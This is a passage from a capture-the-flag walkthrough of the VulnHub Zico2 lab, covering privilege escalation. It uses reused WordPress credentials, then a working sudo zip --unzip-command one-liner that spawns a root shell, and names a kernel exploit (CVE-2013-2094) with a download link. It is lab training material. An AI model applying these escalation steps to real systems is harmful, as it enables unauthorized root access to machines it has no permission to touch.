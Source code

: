 ## Privilege Escalation
Log in as zico with the creds from wp-config.php. These are in plain text so need to crack them;

```
www-data@zico:/home/zico/wordpress$ su - zico
Password:
zico@zico:~$ id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```
### Getting shell using zip command
As seen above we can execute commands as root with no passwords using `/usr/bin/zip` and `/bin/tar`.

```
zico@zico:~$ sudo zip wordpress-4.8.zip wp.txt -T --unzip-command="sh -c /bin/bash"
updating: wp.txt (deflated 43%)
root@zico:~# id
uid=0(root) gid=0(root) groups=0(root)
root@zico:~# ls

root@zico:/# cd root/
root@zico:/root# ls
flag.txt
root@zico:/root# cat flag.txt
#
#
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
#
#
#
```
We've got our flag.

### Using kernel exploit
Kernel Exploits That worked
```
[+] [CVE-2013-2094] perf_swevent

   Details: http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/
   Tags: RHEL=6,ubuntu=12.04
   Download URL: https://www.exploit-db.com/download/26131
```

## Mitigations
Use Mod Security and iptables to block connections out of the Box.

[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
